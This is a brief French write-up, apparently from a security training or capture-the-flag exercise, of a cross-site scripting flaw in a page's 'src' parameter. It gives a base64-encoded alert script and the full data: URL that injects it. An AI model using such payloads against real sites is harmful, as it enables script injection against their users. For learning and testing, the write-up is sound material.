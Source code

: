 Dans la page [URL]?page=media&src=nsa, la source n'est pas protégé.

Une injection d'un script JS est possible en l'encodant en base64.

`<script>alert("coucou")</script>` => `PHNjcmlwdD5hbGVydCgiY291Y291Iik8L3NjcmlwdD4=`

A écrire dans la src :

> [URL]?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgiY291Y291Iik8L3NjcmlwdD4=
